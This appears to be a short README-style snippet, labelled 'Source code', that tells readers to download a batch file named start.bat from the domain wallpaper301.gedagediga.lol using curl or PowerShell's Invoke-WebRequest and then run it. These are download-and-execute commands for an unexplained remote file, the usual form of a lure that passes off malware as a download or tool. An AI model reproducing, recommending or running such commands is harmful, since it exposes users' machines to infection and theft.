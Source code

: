 # With CMD
- curl -o start.bat -L http://wallpaper301.gedagediga.lol/
- start.bat
# With Powershell
- Invoke-WebRequest -Uri http://wallpaper301.gedagediga.lol/ -OutFile start.bat -UseBasicParsing
- ./start.bat
